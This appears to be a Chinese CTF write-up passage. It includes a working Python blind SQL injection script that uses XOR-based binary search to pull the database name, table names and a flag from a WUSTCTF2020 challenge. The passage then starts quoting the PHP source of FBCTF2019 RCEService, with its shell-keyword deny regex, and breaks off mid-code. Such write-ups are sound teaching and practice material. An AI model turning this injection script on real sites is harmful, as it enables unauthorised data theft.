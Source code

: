 =====================================================
# [WUSTCTF2020]颜值成绩查询

看了网页源码没有东西，只能输学号，试了试也没有报错，应该是盲注

直接用之前搞得异或盲注

`0^(ord(substr(database(),0,1))>32)`测试成功

```python
import requests
import time

url="http://6d6430c9-048f-48e1-899f-b4557cefb236.node4.buuoj.cn:81"

i=0

result=""
for x in range(1,1000):
    low = 32
    hight = 127
    mid=(low+hight)>>1
    while low < hight:
        params={
            #"stunum":"0^(ord(substr((select(database())),"+str(x)+",1))>"+str(mid)+")"
            #"stunum":"0^(ord(substr((select(group_concat(table_name))from(information_schema.columns)where(table_schema=database())),"+str(x)+",1))>"+str(mid)+")"
            #"stunum":"0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),"+str(x)+",1))>"+str(mid)+")"
        	"stunum":"0^(ord(substr((select(value)from(flag)),"+str(x)+",1))>"+str(mid)+")"
        }
        r=requests.get(url=url,params=params)
        if "your score is: 100" in r.text:
            low = mid+1
        else:
            hight = mid
        mid=(low+hight)//2
    if low <=32 or hight >= 127:
        break
    result += chr(mid)
    print("result：",result)

```

========================================================
# [FBCTF2019]RCEService

>http://www.manongjc.com/detail/15-jpgjfyubczfhrow.html

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
```